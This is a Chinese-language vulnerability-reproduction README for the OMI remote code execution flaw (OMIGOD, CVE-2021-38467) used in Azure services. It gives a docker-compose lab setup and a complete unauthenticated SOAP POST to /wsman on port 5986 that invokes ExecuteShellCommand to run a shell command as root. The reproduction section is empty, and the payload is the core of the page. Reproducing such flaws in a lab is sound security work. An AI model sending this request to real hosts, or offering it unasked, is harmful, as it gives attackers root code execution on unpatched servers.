

# OMI RCE漏洞（CVE-2021-38467）

OMI 是 UNIX/Linux 等价于 Window 的 WMI。它允许用户跨远程和本地环境管理配置并收集统计信息。由于 OMI 提供的易用性和抽象性，它在 Azure 中得到了广泛使用，尤其是在开放管理套件(OMS)、Azure Insights、Azure 自动化等中。OMI 代理以具有高权限的 root 身份运行。当配置为允许外部使用时，任何用户都可以使用 UNIX 套接字或有时使用 HTTP API 与它通信。因此，OMI 代表了一个可能的攻击面，其中漏洞允许外部用户或低权限用户在目标机器上远程执行代码或提升权限。
某些 Azure 产品（例如配置管理）公开了一个用于与 OMI 交互的 HTTPS 端口（端口 5986 也称为 WinRM 端口）。
参考链接：

- https://www.wiz.io/blog/omigod-critical-vulnerabilities-in-omi-azure

## 漏洞环境

```
docker-compose up -d
```
## payload
```
POST /wsman HTTP/1.1
Connection: Keep-Alive
Content-Length: 1505
Content-Type: application/soap+xml;charset=UTF-8
Host: 192.168.1.1:5986

<s:Envelope xmlns:s="http://www.w3.org/2003/05/soap-envelope" xmlns:a="http://schemas.xmlsoap.org/ws/2004/08/addressing" xmlns:h="http://schemas.microsoft.com/wbem/wsman/1/windows/shell" xmlns:n="http://schemas.xmlsoap.org/ws/2004/09/enumeration" xmlns:p="http://schemas.microsoft.com/wbem/wsman/1/wsman.xsd" xmlns:w="http://schemas.dmtf.org/wbem/wsman/1/wsman.xsd" xmlns:xsi="http://www.w3.org/2001/XMLSchema">
   <s:Header>
      <a:To>HTTP://192.168.1.1:5986/wsman/</a:To>
      <w:ResourceURI s:mustUnderstand="true">http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/SCX_OperatingSystem</w:ResourceURI>
      <a:ReplyTo>
         <a:Address s:mustUnderstand="true">http://schemas.xmlsoap.org/ws/2004/08/addressing/role/anonymous</a:Address>
      </a:ReplyTo>
      <a:Action>http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/SCX_OperatingSystem/ExecuteShellCommand</a:Action>
      <w:MaxEnvelopeSize s:mustUnderstand="true">102400</w:MaxEnvelopeSize>
      <a:MessageID>uuid:0AB58087-C2C3-0005-0000-000000010000</a:MessageID>
      <w:OperationTimeout>PT1M30S</w:OperationTimeout>
      <w:Locale xml:lang="en-us" s:mustUnderstand="false" />
      <p:DataLocale xml:lang="en-us" s:mustUnderstand="false" />
      <w:OptionSet s:mustUnderstand="true" />
      <w:SelectorSet>
         <w:Selector Name="__cimnamespace">root/scx</w:Selector>
      </w:SelectorSet>
   </s:Header>
   <s:Body>
      <p:ExecuteShellCommand_INPUT xmlns:p="http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/SCX_OperatingSystem">
         <p:command>id</p:command>
         <p:timeout>0</p:timeout>
      </p:ExecuteShellCommand_INPUT>
   </s:Body>
</s:Envelope>

```


## 漏洞复现




